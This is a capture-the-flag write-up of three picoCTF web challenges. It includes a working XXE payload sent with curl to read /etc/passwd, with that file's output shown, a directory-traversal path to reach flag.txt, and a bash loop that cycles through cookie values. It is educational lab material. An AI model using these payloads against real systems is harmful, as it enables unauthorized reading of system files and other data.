





# SOAP
We get a webpage which looks quite normal upon initial inspection. Let's fire up burpsuite and take a closer look.
Nothing of particular interest were found in base webpage, we'll see how files are accessed since that'll be our primary step towards reading `/etc/passwd`.




Interesting... Let's see if the XML access is properly sanitized
```bash
achu@air ~ % curl -X POST http://saturn.picoctf.net:61658/data \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <data>
    <ID>&xxe;</ID>
  </data>'
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
achu@air ~ % 
```
Could also use burpsuite interception and modified the request but got the flag anyway, `picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}`.


# Forbidden Paths
We'll we've got a website with a field to enter files.


Let's try the most obvious solution and enter `/flag.txt`


Let's try giving a relative path which goes all the way back like `../../../../../../../../../../../flag.txt`

We have our flag in the website body and it's `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`.
(That quite surprisingly worked, and we've got the flag... That was pleasantly easy!)


# cookies
The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`


We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)


We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C
achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
We get the flag `picoCTF{3v3ry1_l0v3s_c00k135_88acab36}` on `name=18` iteration.
